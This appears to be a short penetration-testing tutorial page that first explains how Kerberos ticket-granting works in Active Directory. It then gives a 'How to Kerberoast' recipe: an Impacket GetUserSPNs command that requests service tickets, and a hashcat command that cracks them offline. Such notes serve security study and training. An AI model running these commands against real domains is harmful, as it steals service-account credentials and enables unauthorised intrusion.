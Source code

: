 ### Kerberos

- When a user logs on to Active Directory, the user authenticates to the Domain Controller (DC) using the user’s password which of course the DC knows.
- The DC sends the user a Ticket Granting Ticket (TGT) Kerberos ticket. The TGT is presented to any DC to prove authentication for Kerberos service tickets.
- The user opens up Skype which causes the user’s workstation to lookup the Service Principal Name (SPN) for the user’s Exchange server.
- Once the SPN is identified, the computer communicates with a DC again and presents the user’s TGT as well as the SPN for the resource to which the user needs to communicate.
- The DC replies with the Ticket Granting Service (TGS) Kerberos service ticket.
- The user’s workstation presents the TGS to the Exchange server for access.


![kerberoast](/assets/Kerberos.png)

### How to Kerberoast [simple]

- With access look for the supported SPNs and get TGS ticket for the SPN using GetUserSPNs tool from Impacket

```
GetUserSPNs.py -request -dc-ip <DC_IP> <domain\user>
```

- Crack hash

```
Hashcat -m 13100 <hash_file> <wordlist>
```
